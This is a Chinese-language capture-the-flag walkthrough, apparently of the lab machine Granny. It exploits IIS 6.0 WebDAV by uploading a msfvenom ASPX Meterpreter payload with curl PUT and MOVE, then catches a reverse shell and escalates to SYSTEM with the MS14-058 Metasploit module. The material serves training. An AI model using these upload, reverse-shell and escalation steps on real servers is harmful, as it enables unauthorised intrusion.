信息搜集¶
Nmap¶
root@kali# nmap --min-rate 10000 -p- -Pn 10.10.10.15 -oA scans/ports
...
PORT STATE SERVICE
80/tcp open http
...
root@kali# nmap -sT -sC -sV -O -p80 10.10.10.15 -oA scans/details
...
PORT STATE SERVICE VERSION
80/tcp open http Microsoft IIS httpd 6.0
| http-methods:
|_ Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
| http-webdav-scan:
| WebDAV type: Unkown
| Server Type: Microsoft-IIS/6.0
| Server Date: Wed, 06 Mar 2019 20:13:57 GMT
| Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
|_ Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
...
1.nmap扫描发现只开了80端口，版本是：Microsoft IIS version 6.0… 2.还启用了http-webdav… 3.发现服务器是iis6.0，那么我们推测对方服务器系统版本大概是win2003之前的系统
WEB服务¶

目录FUZZ¶
用dirsearch扫一下敏感目录
root@kali# python3.9 dirsearch.py -u http://10.10.10.15
...
[10:32:59] 301 - 153B - /_private -> http://10.10.10.15/%5Fprivate/
[10:32:59] 200 - 246B - /_private/
[10:33:00] 301 - 155B - /_vti_bin -> http://10.10.10.15/%5Fvti%5Fbin/
[10:33:00] 200 - 759B - /_vti_bin/
[10:33:00] 200 - 195B - /_vti_bin/_vti_aut/author.dll
[10:33:00] 200 - 96B - /_vti_bin/shtml.dll
[10:33:00] 200 - 96B - /_vti_bin/shtml.exe?_vti_rpc
[10:33:00] 200 - 106B - /_vti_bin/shtml.exe/qwertyuiop
[10:33:00] 200 - 105B - /_vti_bin/shtml.dll/asdfghjkl
[10:33:00] 200 - 246B - /_vti_log/
[10:33:00] 500 - 88B - /_vti_pvt/users.pwt
[10:33:00] 301 - 155B - /_vti_log -> http://10.10.10.15/%5Fvti%5Flog/
[10:33:00] 500 - 88B - /_vti_pvt/users.pwd
[10:33:01] 500 - 88B - /_vti_cnf/
[10:33:01] 200 - 2KB - /_vti_inf.html
[10:33:01] 200 - 195B - /_vti_bin/_vti_adm/admin.dll
[10:34:29] 200 - 369B - /aspnet_client/
[10:34:29] 301 - 158B - /aspnet_client -> http://10.10.10.15/aspnet%5Fclient/
[10:36:14] 200 - 242B - /images/
[10:36:14] 301 - 149B - /images -> http://10.10.10.15/images/
[10:37:47] 200 - 2KB - /postinfo.html
...
我们发现了有iis6.0中间件，那么我们搜索一下有没有相关漏洞.

WebDAV是一种基于HTTP协议的扩展，它允许客户端对远程服务器上的文件进行读写操作，类似于传统的文件系统。其全称是“Web-based Distributed Authoring and Versioning”，即基于Web的分布式创作和版本控制。
WebDAV提供了以下主要功能和服务：
- 文件管理: 客户端可以通过WebDAV协议对远程服务器上的文件进行创建、删除、移动和重命名等操作，就像操作本地文件系统一样。
- 文件锁定: WebDAV允许客户端锁定服务器上的文件，防止其他客户端在该文件上执行写操作，从而实现文件的协作编辑。
- 属性管理: 客户端可以通过WebDAV协议管理服务器上文件的元数据，比如文件的创建时间、修改时间等。
- 集成版本控制: WebDAV支持一些版本控制功能，允许对文件进行版本管理，包括创建、查看和还原文件的不同版本。
- 远程文件访问: 用户可以通过WebDAV协议在远程服务器上访问文件，而无需使用专门的文件传输协议或工具。
- 网络文件共享: WebDAV可用于创建基于网络的文件共享系统，允许多个用户协同工作，并且可以在不同的操作系统和平台上实现互操作性。
总的来说，WebDAV提供了一种方便的方式，使用户能够通过网络访问和管理远程服务器上的文件，同时支持一些协作和版本控制功能，适用于许多不同的应用场景，如云存储、文档管理系统、协作编辑等。
看到了关于IIS的webdav的漏洞.
漏洞利用¶
检查响应标头：
root@kali# curl -I 10.10.10.15
HTTP/1.1 200 OK
Content-Length: 1433
Content-Type: text/html
Content-Location: http://10.10.10.15/iisstart.htm
Last-Modified: Fri, 21 Feb 2003 15:48:30 GMT
Accept-Ranges: bytes
ETag: "05b3daec0d9c21:358"
Server: Microsoft-IIS/6.0
MicrosoftOfficeWebServer: 5.0_Pub
X-Powered-By: ASP.NET
Date: Wed, 06 Mar 2019 20:15:03 GMT
Connection: close
可以看到标头正在使用ASP.NET
基本的Web开发网站的堆栈结构如下： LAMP = Linux + Apache + MySQL + PHP WISA = Windows + IIS + SQL Server + ASP.NET
这个靶机是windows环境，所以可以利用ASP.NET来替代PHP，这里只需要找到一种方法来将文件以asp/aspx扩展名传递到服务器提权即可…（就是将合法文件上传到Web服务器，然后将其重命名为可执行文件，将扩展名更改为asp或aspx）
验证下我的思路是不是对的…
在nmap扫描中注意到 webdav 扫描显示了 PUT 和 MOVE 等方法。我也许可以通过这种方式上传文件。
| http-webdav-scan:
| WebDAV type: Unkown
| Server Type: Microsoft-IIS/6.0
| Server Date: Wed, 06 Mar 2019 20:13:57 GMT
| Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
|_ Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
DAVTEST测试¶
WebDAV是基于Web服务的扩展服务。它允许用户像操作本地文件一样，操作服务器上的文件。借助该功能，用户很方便的在网络上存储自己的文件。为了方便用户使用，通常会提供给用户较大的文件权限，如上传、修改甚至是执行权限。Kali Linux提供了一款WebDAV服务漏洞利用工具DAVTest。该工具会自动检测权限，寻找可执行文件的权限。一旦发现，用户就可以上传内置的后门工具，对服务器进行控制。同时，该工具可以上传用户指定的文件，便于后期利用。
davtest使用教程：https://blog.csdn.net/qq_40399982/article/details/112583196
它将向我显示可以上传哪些类型的文件，以及是否可以创建目录：davtest
root@kali# davtest -url http://10.10.10.15
...
********************************************************
Sending test files
PUT txt SUCCEED: http://10.10.10.15/DavTestDir_l8Qkwc/davtest_l8Qkwc.txt
PUT jsp SUCCEED: http://10.10.10.15/DavTestDir_l8Qkwc/davtest_l8Qkwc.jsp
PUT asp FAIL
PUT php SUCCEED: http://10.10.10.15/DavTestDir_l8Qkwc/davtest_l8Qkwc.php
PUT cgi FAIL
PUT aspx FAIL
PUT pl SUCCEED: http://10.10.10.15/DavTestDir_l8Qkwc/davtest_l8Qkwc.pl
PUT cfm SUCCEED: http://10.10.10.15/DavTestDir_l8Qkwc/davtest_l8Qkwc.cfm
PUT shtml FAIL
PUT jhtml SUCCEED: http://10.10.10.15/DavTestDir_l8Qkwc/davtest_l8Qkwc.jhtml
PUT html SUCCEED: http://10.10.10.15/DavTestDir_l8Qkwc/davtest_l8Qkwc.html
********************************************************
Checking for test file execution
EXEC txt SUCCEED: http://10.10.10.15/DavTestDir_l8Qkwc/davtest_l8Qkwc.txt
EXEC jsp FAIL
EXEC php FAIL
EXEC pl FAIL
EXEC cfm FAIL
EXEC jhtml FAIL
EXEC html SUCCEED: http://10.10.10.15/DavTestDir_l8Qkwc/davtest_l8Qkwc.html
********************************************************
/usr/bin/davtest Summary:
Created: http://10.10.10.15/DavTestDir_l8Qkwc
PUT File: http://10.10.10.15/DavTestDir_l8Qkwc/davtest_l8Qkwc.txt
PUT File: http://10.10.10.15/DavTestDir_l8Qkwc/davtest_l8Qkwc.jsp
PUT File: http://10.10.10.15/DavTestDir_l8Qkwc/davtest_l8Qkwc.php
PUT File: http://10.10.10.15/DavTestDir_l8Qkwc/davtest_l8Qkwc.pl
PUT File: http://10.10.10.15/DavTestDir_l8Qkwc/davtest_l8Qkwc.cfm
PUT File: http://10.10.10.15/DavTestDir_l8Qkwc/davtest_l8Qkwc.jhtml
PUT File: http://10.10.10.15/DavTestDir_l8Qkwc/davtest_l8Qkwc.html
Executes: http://10.10.10.15/DavTestDir_l8Qkwc/davtest_l8Qkwc.txt
Executes: http://10.10.10.15/DavTestDir_l8Qkwc/davtest_l8Qkwc.html
...
可以看到文本文件是成功上传加载的…
Meterpreter¶
利用msfvenom生成asp shell，然后上传到Web服务器即可

有两种上传方式：
curl¶
root@kali# curl -X PUT http://10.10.10.15/met.txt -d @met.aspx
root@kali# curl -X MOVE -H 'Destination: http://10.10.10.15/met.aspx' http://10.10.10.15/met.txt


结合cadaver¶
cadaver：WEBDAV是基于HTTP 1.1的扩展协议，其支持使用PUT方法上传和锁定文件，基于这个特性可以实现功能强大的内容或配置管理系统。但丰富的功能特性总是会带来安全方面的更多隐患，尤其是在配置不当的情况下，可能直接给攻击者留下一个文件上传的入口。davtest是一个文件上传漏洞的检测和验证工具，而cadaver作为一个命令行形式的WEBDAV客户端程序，可以对相应服务器进行任何操作。
cadaver使用教程：https://www.shserve.cn/18422.html
将asp内容复制到txt文本中…

可以看到通过put上传文件，然后move重名了文件，即可。
反弹shell¶
curl的方式有些问题，启动 Metasploit后失败：
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST tun0
LHOST => tun0
msf5 exploit(multi/handler) > set lport 443
lport => 443
msf5 exploit(multi/handler) > options
Module options (exploit/multi/handler):
Name Current Setting Required Description
---- --------------- -------- -----------
Payload options (windows/meterpreter/reverse_tcp):
Name Current Setting Required Description
---- --------------- -------- -----------
EXITFUNC process yes Exit technique (Accepted: '', seh, thread, process, none)
LHOST tun0 yes The listen address (an interface may be specified)
LPORT 443 yes The listen port
Exploit target:
Id Name
-- ----
0 Wildcard Target
msf5 exploit(multi/handler) > run
[*] Started reverse TCP handler on 10.10.14.14:443
触发失败了：

查看上传的met.txt文件：

发现格式有问题，重新上传，这次用于保留端行和其他控制字符：--data-binary。
--data-binary：告诉curl将数据视为二进制数据，而不进行任何特殊处理。这意味着上传的数据将按照原始格式进行传输，不会对其进行字符编码等处理。
-d：告诉curl使用标准的URL编码格式将数据发送到服务器。这意味着上传的数据将按照URL编码格式进行传输，其中一些特殊字符可能会被转义。

没有问题了。
现在，移动文件并触发它：
root@kali# curl -X MOVE -H 'Destination: http://10.10.10.15/met.aspx' http://10.10.10.15/met.txt
root@kali# curl http://10.10.10.15/met.aspx
成功拿到shell。
[*] Sending stage (179779 bytes) to 10.10.10.15
[*] Meterpreter session 1 opened (10.10.14.14:443 -> 10.10.10.15:1032) at 2019-03-06 17:05:07 -0500
meterpreter >
不使用msf，可以本地直接nc监听。
提权¶

用本地漏洞利用检查¶
meterpreter > background
[*] Backgrounding session 1...
msf5 exploit(multi/handler) > search local_exploit
Matching Modules
================
Name Disclosure Date Rank Check Description
---- --------------- ---- ----- -----------
post/multi/recon/local_exploit_suggester normal No Multi Recon Local Exploit Suggester
msf5 exploit(multi/handler) > use post/multi/recon/local_exploit_suggester
msf5 post(multi/recon/local_exploit_suggester) > set session 1
session => 1
msf5 post(multi/recon/local_exploit_suggester) > run
[*] 10.10.10.15 - Collecting local exploits for x86/windows...
[*] 10.10.10.15 - 29 exploit checks are being tried...
[+] 10.10.10.15 - exploit/windows/local/ms10_015_kitrap0d: The target service is running, but could not be validated.
[+] 10.10.10.15 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms14_070_tcpip_ioctl: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms16_016_webdav: The target service is running, but could not be validated.
[+] 10.10.10.15 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The target service is running, but could not be validated.
[+] 10.10.10.15 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms16_075_reflection_juicy: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Post module execution completed

这里利用use post/multi/recon/local_exploit_suggester，这个是Metasploit中使用本地漏洞利用检查来检查系统是否存在本地漏洞，就和漏扫脚本差不多，很好的一个脚本。这里发现了7个成功率高的漏洞，都是可以成功的，利用就行。
尝试MS14-058¶
msf5 post(multi/recon/local_exploit_suggester) > use exploit/windows/local/ms14_058_track_popup_menu
msf5 exploit(windows/local/ms14_058_track_popup_menu) > set session 1
session => 3
msf5 exploit(windows/local/ms14_058_track_popup_menu) > run
[*] Started reverse TCP handler on 10.10.14.14:4444
[*] Launching notepad to host the exploit...
[+] Process 2304 launched.
[*] Reflectively injecting the exploit DLL into 2304...
[*] Injecting exploit into 2304...
[*] Exploit injected. Injecting payload into 2304...
[*] Payload injected. Executing exploit...
[*] Sending stage (179779 bytes) to 10.10.10.15
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Meterpreter session 4 opened (10.10.14.14:4444 -> 10.10.10.15:1044) at 2019-03-06 17:20:47 -0500
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM